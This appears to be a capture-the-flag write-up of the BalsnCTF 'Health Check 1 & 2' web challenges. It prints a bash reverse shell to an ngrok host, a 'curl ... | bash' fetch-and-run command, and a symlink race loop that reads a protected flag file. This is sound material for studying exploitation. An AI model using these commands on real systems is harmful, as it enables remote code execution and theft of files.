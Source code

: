 ```yaml
---
layout: writeups
title: Health Check 1 & 2 - BalsnCTF
date: 2022-9-05
category: "Web"
desc: "Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our fastest Health Check API in the world!"
---
```


## Challenge Description
"Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our "fastest" Health Check API in the world!"


## Information
Some information about healthcheck1 and healthcheck2, these are 2 seperate challenges where you have to gain access with RCE for healthcheck 1 enumerate the file system and grab the flag. After that healthcheck 2 comes to the surface, so we got a shell and with that into web application directory(`/home/healthcheck/app`) we found 2 python files called `apiserver.py` and `background.py` with source code of the app, analyzing the source code of the `apiserver.py` at `@app.get('/{dir_name}')` route is there a opportunity for a `race contition` attack and after that grab the second flag.


## Health Check 1
A first look into web challenge we got a message `{"message":"Hello World"}` who looks like `json` format. Doing more enumeration i didnt find something worth so i try bruteforce some directories. <br>
![index](https://user-images.githubusercontent.com/45040001/188512190-3470dbe0-f726-4f73-92a1-11b802ffe06f.png)

While directory bruteforcing running the `/docs` directory appear with different `content length` <br>
![docs_dir](https://user-images.githubusercontent.com/45040001/188512230-691bfdc5-8811-4e0b-a180-b15a56e97f28.png)

When visit the `/docs` directory we found 3 interestings HTTP routes and they are: `POST /new`,`GET /{dir_name}` and the last one `GET /` <br>
![docs](https://user-images.githubusercontent.com/45040001/188512252-23eea18f-11a7-4008-b7b0-b85ed03742c8.png)
<br>

Lets enumerate these routes... Lets take the first one and open it we will find out a description which says:
<b>"This endpoint is only for admin. do NOT share this link with players!

Upload the health check script to create a new problem. The uploaded file should be a zip file. The zip file should NOT have a top-level folder, you must place an executable (or a script) named run. You may put other fiels as you want. Below is an example output of zipinfo myzip.zip of a valid myzip.zip"</b>
<br>
![admin_only](https://user-images.githubusercontent.com/45040001/188512336-edf35a77-5b7d-4bc4-bdd8-956d5aa938f3.png)

When i read `you must place an executable (or a script)` instantly i thing a bash script so i tried.<br>
![upload exploit](https://user-images.githubusercontent.com/45040001/188512694-815aa9fe-edc5-4eb4-a3d1-fd1103a1ef8a.png)

I create a zip file with a random name(`tet.zip`) and i put my `run` executable inside with the curl command sending a `GET` requst to my burpcollaborator.(bellow run executable source code) <br>
```bash
#!/bin/bash

curl http://burpcollaborator.net/
```
After a few seconds i get the request from curl command and i knew it i can get a reverse shell just putting the reverse shell into run executable but... <br>
![curl](https://user-images.githubusercontent.com/45040001/188512936-18f8d21c-d5a4-4cdd-87f0-6dcdd562b042.png)

but when i tried i had a problem.. The problem it was the URL scheme must be "http","https" so i create 2 other files.(source code below)<br>
![cors](https://user-images.githubusercontent.com/45040001/188512958-8afb1bfb-cba4-43b7-ba6a-3535130004f2.png)

<br>

The first file was the `shell.sh` where i upload it into a web server so i can reach it from the other file called `run` executable.
```bash
#!/bin/bash
# shell.sh

bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12771 0>&1
```

This source code below is the `run` executable where with the `curl` command we get the source code of `shell.sh` and pipeline it with `bash` command and successfully get the reverse shell .
```bash
#!/bin/bash
# run executable

curl http://server-to-shell.com/shell.sh|bash
```

![rev_shell](https://user-images.githubusercontent.com/45040001/188512834-833e9ba4-3db1-43de-8a8f-dc7e1ae3cd84.png) <br>

We can retrive the flag in the `__pycache__` directory.
![flag](https://user-images.githubusercontent.com/45040001/188512842-48603fcf-de87-439a-8168-dc3fcd5be75e.png)


## Health Check 2

![examine](https://user-images.githubusercontent.com/45040001/188760193-9a4b878f-9659-4dd7-864d-e0646ab7f53a.png)


```python
@app.get('/{dir_name}')
async def get_status(dir_name: str):
    file = data_path / dir_name / 'status.json'
    if not file.resolve().is_relative_to((data_path / dir_name).resolve()):
        return HTTPException(404, detail='no status')
    try:
        with open(file, 'r') as fp:
            return fp.read()
    except:
        return HTTPException(404, detail='no status')
```

![upload zip_for flag](https://user-images.githubusercontent.com/45040001/188760009-9ed5c627-b8f2-4105-b548-11f59ae5bd6a.png)

```bash
# run executable into flag.zip
while :; do ln -s /home/healthcheck/app/flag2 status.json; rm status.json; echo 'lalal' > status.json; rm status.json; done
```


![run_my_script](https://user-images.githubusercontent.com/45040001/188760071-b6c4a1d1-212c-44d4-ab9a-9a9399777a51.png)

![404](https://user-images.githubusercontent.com/45040001/188760084-ea4bb487-ce74-4944-b0ad-b29b171f238c.png)

![lalala](https://user-images.githubusercontent.com/45040001/188760090-36c82282-f3d3-4ede-9edc-6e5ff54fdc61.png)

![flag](https://user-images.githubusercontent.com/45040001/188760093-e824b6d0-d869-4148-8db6-b443521888da.png)



